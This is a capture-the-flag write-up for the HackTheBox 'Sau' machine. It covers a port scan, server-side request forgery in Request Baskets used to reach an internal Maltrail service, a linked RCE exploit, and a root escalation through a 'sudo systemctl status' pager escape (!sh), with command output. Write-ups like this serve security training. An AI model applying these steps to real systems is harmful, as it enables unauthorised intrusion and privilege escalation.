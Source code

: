 ```yaml
---
description: Easy machine.
---
```


# Sau

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## port scan result

```bash
└─➜ nmap 10.10.11.224 -sCV -T5 | tee ports.scan                                                                                                                               [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-30 17:56 IST
Nmap scan report for sau.htb (10.10.11.224)
Host is up (0.40s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open  unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 30 Dec 2023 12:27:17 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 30 Dec 2023 12:26:36 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 30 Dec 2023 12:26:38 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=12/30%Time=65900C81%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;

<--SNIPPED-->

SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.89 seconds
```

* No need of directory bruteforcing for this machine.

## Homepage

* Upon visiting the homepage, we can see that the machine is using vulnerable version of `Request Basket`

![image](https://gist.github.com/assets/56447720/eb023cd7-4f7f-4d5e-b26d-f01b547514d6)

* Read more about this vuln:
* https://github.com/entr0pie/CVE-2023-27163

{% embed url="https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7" %}

## Web Exploit

> Request-baskets is a web application built to collect and register requests on a specific route, so called basket. When creating it, the user can specify another server to forward the request.

* So basically, after creating a basket you can enable forward\_url with malicious IP, so if someone visit your basket, request is forwarded to malicious IP.
* An attacker can put localhost IP and can get information that are not meant to be public.
* Since port 80 was open (filtered) we can ask for request basket to fetch data for us.

### 1. Create a new basket

![image](https://gist.github.com/assets/56447720/a794e96e-0233-4c11-b91d-870b7508517a)

* After creating, it will prompt you with token, Click on Open basket

### 2. Forward Request

* Click on settings

![image](https://gist.github.com/assets/56447720/f94c8f05-19aa-4dbe-be4e-41c09655e67d)

* Configure with following settings

![image](https://gist.github.com/assets/56447720/1c42906f-08f3-4902-a6b6-ccde4bc21dd5)

### 3. Info leak

* After visiting our basket `(sau.htb:55555/<basket_name>)` ![image](https://gist.github.com/assets/56447720/f979ab45-dac0-4475-acb3-c5d0b507c70f)
* We can see it's using Mailtrail
* Upon google search, we can see it's vulnerable to RCE.
* Read more about the vuln :&#x20;

{% embed url="https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5" %}

## User Shell

* [**https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53**](https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53)

![image](https://gist.github.com/assets/56447720/c81e29ab-ce81-4375-bd5f-d591203b7912)

## Root shell

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

```

* Resource:

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/" %}

```bash
$ sudo  /usr/bin/systemctl status trail.service
sudo  /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
#
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes's still pwning
